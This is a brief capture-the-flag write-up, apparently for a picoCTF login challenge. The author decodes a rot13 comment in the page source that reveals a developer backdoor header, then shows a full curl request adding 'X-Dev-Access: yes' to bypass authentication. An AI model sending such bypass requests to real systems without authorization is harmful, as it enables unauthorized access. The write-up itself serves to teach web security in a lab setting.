




 

This is the problem statement, where I have been given an email id `ctf-player@picoctf.org`. I have to find the password
or a way to bypass the authorization.

I input random data as password and checked the network log, I found that it is post request to `/login`.

 

I checked the source view of the website (cuz it's always good to do that), and I found text that looks like rot13 encoded.

 

Now, by decoding this text I get somethign interesting. It says

`NOTE: Jack - temporary bypass: use header "X-Dev-Access: yes"`

Now I know this is Authentication Bypass via Backdoor Header, so I did copied cURL
added the header `X-Dev-Access: yes`

```sh
curl 'http://amiable-citadel.picoctf.net:57898/login' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-GB,en;q=0.8' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -H 'Origin: http://amiable-citadel.picoctf.net:57898' \
  -H 'Referer: http://amiable-citadel.picoctf.net:57898/' \
  -H 'Sec-GPC: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36' \
  -H 'X-Dev-Access: yes' \
  --data-raw '{"email":"ctf-player@picoctf.org","password":"wfpwf"}' \
  --insecure | jq
```

and booyeah, I get the flag.

 

